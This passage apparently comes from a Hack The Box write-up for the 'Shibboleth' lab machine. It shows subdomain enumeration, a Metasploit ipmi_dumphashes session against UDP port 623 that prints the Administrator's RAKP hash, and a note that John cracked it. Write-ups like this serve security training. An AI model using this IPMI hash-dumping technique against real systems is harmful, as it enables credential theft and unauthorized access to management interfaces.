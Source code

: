```bash
monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30]
```

Voila!! we have some subdomains active , let's add them to /etc/hosts

```bash
└─$ sudo nano /etc/hosts
#htb machines
10.129.99.116 shibboleth.htb zabbix.shibboleth.htb monitor.shibboleth.htb monitoring.shibboleth.htb
```
All the three subdomain had a login page
![image](https://user-images.githubusercontent.com/56447720/141722392-9fbebb36-f73a-4238-8b4b-a59ea0642bb0.png)

Hmmmmmm zabbix

> Zabbix is an open-source monitoring software tool for diverse IT components, including networks, servers, virtual machines and cloud services. Zabbix provides monitoring metrics, among others network utilization, CPU load and disk space consumption

# Get login details

So I tried with some Web Attacks to login but none of them worked, The **UDP port 623** will get us some hashes

### Learn

- The UDP port 623 is vulnerable : https://book.hacktricks.xyz/pentesting/623-udp-ipmi

### Login creds

- I've used the Metasplot way to get the hashes because it was easy

```bash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.99.116
rhosts => 10.129.99.116
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set OUTPUT_JOHN_FILE zabbixlogin
OUTPUT_JOHN_FILE => zabbixlogin
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > exploit

[+] 10.129.99.116:623 - IPMI - Hash found: Administrator:97c8d75502010000d824a6d87cc8260b6a7a8ddf0282eadc5ebab7e75f2c8f7ed1a6429124bdf9b3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:84568da58ac1bb73a12d71bb0ea9d08a470ebd31
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > cat zabbixlogin
[*] exec: cat zabbixlogin

10.129.99.116 Administrator:$rakp$97c8d75502010000d824a6d87cc8260b6a7a8ddf0282eadc5ebab7e75f2c8f7ed1a6429124bdf9b3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$84568da58ac1bb73a12d71bb0ea9d08a470ebd31

```
- John cracked the password
